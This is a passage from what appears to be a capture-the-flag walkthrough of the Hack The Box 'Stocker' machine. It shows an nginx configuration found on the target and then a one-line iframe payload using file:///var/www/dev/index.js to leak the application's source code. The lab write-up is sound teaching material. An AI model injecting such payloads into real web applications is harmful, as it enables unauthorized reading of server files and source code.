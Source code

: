 ```text
    
    ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE
    ssl_prefer_server_ciphers on;
    
    ##
    # Logging Settings
    ##
    
    access_log /var/log/nginx/access.log;
    error_log /var/log/nginx/error.log;
    
    ##
    # Gzip Settings
    ##
    
    gzip on;
    
    # gzip_vary on;
    # gzip_proxied any;
    # gzip_comp_level 6;
    # gzip_buffers 16 8k;
    # gzip_http_version 1.1;
    # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/java
    
    ##
    # Virtual Host Configs
    ##
    
    include /etc/nginx/conf.d/*.conf;
    
    server {
        listen 80;
        
        root /var/www/dev;
        index index.html index.htm index.nginx-debian.html;
        
        server_name dev.stocker.htb;
```

So for dev.stocker.htb, the aplication root is /var/www/dev

We can try to get application source code, in order to get any other valuable information. Usually the main page is named "index.php" for a php application, "index.asp" or with other extensions depending on the web technology. On this Linux host, we can check for :

- index.html
- index.php
- index.js

This last one will get a source code :

```
Payload='<iframe src=file:///var/www/dev/index.js height=1050px width=1200px></iframe>'
```
